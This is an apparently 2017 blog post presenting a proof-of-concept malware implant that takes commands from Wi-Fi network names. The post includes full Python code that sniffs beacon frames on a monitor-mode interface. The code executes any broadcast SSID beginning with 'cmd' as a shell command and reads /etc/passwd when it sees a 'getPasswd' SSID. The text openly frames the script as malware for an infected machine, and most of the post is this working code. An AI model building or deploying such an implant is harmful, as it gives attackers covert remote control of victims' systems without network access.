 ```yaml
---
layout: post
title:  "Controlling a PC using Wifi SSID's"
date:   2017-04-9 12:18:29 +0200
categories: blog
---
```

# Controlling a PC using Wifi SSID's

There are different forms of controlling a system without connection with Internet or other network. In this PiC we will use the name of the wireless network, the SSIDs.

If infect a system only we will need that this have a wireless card, we will listen the network's names and if the malware find a name that it identify as a command, it will execute this command in the infected machine.

Let's do it, in first place we will need listen and parse the name of the wireless networks. For this task I will use the library socket, with this library is very easy parse a network packets. You can use scapy for this task also is very easy of use.



```python
import socket
sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0003))
sock.bind(("mon0", 0x0003))
while True:
        pkt = sock.recvfrom(2048)[0]
        if pkt[26] == "\x80" :
                if pkt[36:42] and ord(pkt[63]) > 0:
                        ssid=pkt[64:64 +ord(pkt[63])]
                        mac=pkt[36:42].encode('hex')
                        print("MAC:{0} SSID:{1}".format(mac,ssid))
```

We will need capture the Beacon frames, this type is the ID 0b1000 or 0x80 according the [IEEE 802.11 standard](http://grouper.ieee.org/groups/802/11/).

## Quick reference guide

|Type|SubtypeType(bin)|Description|
|:--:|:--:|:---------:|
|mgmt|0000|Association Request|
|mgmt|0001|Association Response|
|mgmt|0010|Reassociation Request|
|mgmt|0011|Reassociation Response|
|mgmt|0100|Probe Request|
|mgmt|0101|Probe Response|
|mgmt|1000|Beacon|
|mgmt|1001|ATIM|
|mgmt|1010|Disassociation|
|mgmt|1011|Authentication|
|mgmt|1100|Deauthentication|

## Code

Now, we already know obtain the network name, the next task is implement different commands.
This is the complete code of this PoC:
```python
#!/usr/bin/env python
import argparse
import subprocess
import socket
sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0003))

parser = argparse.ArgumentParser()
parser.add_argument('-v', action='count', dest='verbose')
parser.add_argument('-i', dest='interface')
args=parser.parse_args()
sock.bind((args.interface, 0x0003))
while True:
        pkt = sock.recvfrom(2048)[0]
        if pkt[26] == "\x80" :
                if pkt[36:42] and ord(pkt[63]) > 0:
                        ssid=pkt[64:64 +ord(pkt[63])]
                        mac=pkt[36:42].encode('hex')
                        if ssid=="getPasswd":
                                out = subprocess.check_output(['cat','/etc/passwd'])
                                if args.verbose==1:
                                        print out
                        if ssid[0:3]=="cmd":
                                out = subprocess.check_output([ssid[3:]])
                                if args.verbose==1:
                                        print out
			if args.verbose==2:
                                print "SSID: %s  AP MAC: %s" % (pkt[64:64 +ord(pkt[63])], pkt[36:42].encode('hex'))
```

Regards!
